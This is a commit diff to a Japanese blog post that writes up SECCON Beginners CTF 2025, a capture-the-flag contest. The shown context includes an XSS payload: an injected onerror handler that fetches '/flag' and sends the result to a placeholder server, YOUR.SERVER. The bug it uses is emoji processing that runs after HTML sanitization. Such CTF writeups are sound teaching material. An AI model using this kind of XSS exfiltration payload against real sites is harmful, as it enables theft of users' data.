

Before and after one commit to kq5y/blog, a Markdown page: posts/ctf/seccon4b-2025.md, 3 parts joined by grey strips. GitHub-like rendering.

Commit message:
post: ctf/seccon4b-2025 (public)

````diff
--- a/posts/ctf/seccon4b-2025.md
+++ b/posts/ctf/seccon4b-2025.md
@@ -3,7 +3,6 @@ title: "SECCON Beginners CTF 2025 writeup"
 tags:
   - "CTF"
   - "writeup"
-hidden: true
 ---
 
 7/26から開催されたSECCON Beginners CTF 2025にTPCとして参加し、880チーム中1位だった。
@@ -539,7 +538,8 @@ app.listen(50000, '0.0.0.0', ()=>console.log('Server running on http://localhost
 
 プログラムを見てみる。メモを投稿する際に`sanitizeHtml`を行ったあとに`processEmojis`をしている。後者の処理は`:`に挟まれた箇所が`emojiMap`にあればそれを、URLならimgタグにして返すものであり、`fragment`が何も処理されずURLにそのまま結合されている。なのでここからXSSができそうだ。
 
-よって次の内容をメモに投稿し、そのidを通報するとフラグが獲得できる。
+URLなどにコロンが含まれないよう注意しながらペイロードを作成する。
+次の内容をメモに投稿し、そのidを通報するとフラグが獲得できる。
 
 ```txt showLineNumbers=false
 :http://example.com/blank.png#" onerror="fetch('/flag').then(r=>r.text()).then(f=>location.href='//YOUR.SERVER/f?f='+f):
@@ -1375,7 +1375,7 @@ print(p.recvall().decode())
 
 ## まとめ
 
-参加者数がとても多く、面白い問題も多く非常に面白かった。
+参加者数がとても多く、面白い問題も多く非常に面白かった。来年はjail系があるといいなぁ...
 3カテゴリを全完で来て良かったが、cryptoやpwnのボス問は現状解ける気がしないのでまだまだだと感じる。
 (チームメンバーがすごかった)
 今回始めてrevをまともにやり、結構楽しかったので今後もちょくちょく触っていきたい。
````
